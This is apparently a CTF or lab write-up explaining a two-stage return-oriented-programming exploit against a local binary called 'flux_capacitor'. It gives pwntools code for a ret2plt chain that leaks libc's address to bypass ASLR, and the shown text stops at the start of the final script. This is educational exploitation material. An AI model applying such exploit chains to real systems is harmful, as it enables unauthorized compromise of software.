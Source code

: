 <div class="box-note">
It’s very very useful to be able to debug <code>pwntools</code> Python scripts. It’s possible to attach a debugger, set up a breakpoint (for example before the <code>read()</code> call) and gradually feed input and parse output from the vulnerable program:<br>
<code>
io = gdb.debug(bin_path, gdbscript = 'b *(main+558)')
</code>
</div>

For phase 1, leaking the base address of libc, we have the following ROP chain:

```python
offset = 40                     # Offset to overwrite RIP

# Phase 1 - Ret2Plt 
# Leak the address of write function and libc

buf  = b'A' * offset 

pop_rsi = 0x400951              # pop rsi; pop r15; ret 
write_plt = 0x400510            # Address of write in PLT
write_got = 0x600fd0            # Address of write in GOT
main = 0x00400684               # main() (Return after first run)

buf += struct.pack('<Q', pop_rsi)
buf += struct.pack('<Q', write_got)     # POP-ed into RSI (2nd parameter to write)
buf += struct.pack('<Q', 0x41414141)    # POP-ed into R15 
buf += struct.pack('<Q', write_plt)     # Call this
buf += struct.pack('<Q', main)          # ret after write
```

The goal of this first stage is to call the `write` function, using it’s address in PLT

* Its first argument would be in RDI, but in our case RDI register will already be set to 1 (`stdout`) so we don’t need to set it.
* The second argument, what to write, will be taken from RSI. That’s why we POP into RSI the address of write function in GOT table, which would point into the real address in `libc.so.6`.
* The 3rd argument to `write` would be the size to write. Again we don’t need to worry about this because RDX register is correctly set 
* We also put on the stack the address of `main` function, to return there after write, and basically be able to re-exploit the program.

We then compute the base address of `libc` library, and reproduce the previous attack. The final script to bypass ASLR with two ROP chains, heavily commented:

```python
import sys
import struct

from pwn import *

bin_path = './flux_capacitor'
io = process(bin_path)

# Local process under GDB
# Break before the read() call 
#io = gdb.debug(bin_path, gdbscript = 'b *(main+558)')

read_buf_len = 0x100

offset = 40                     # Offset to overwrite RIP

# Phase 1 - Ret2Plt 
# Leak the address of write function and libc

buf  = b'A' * offset 

```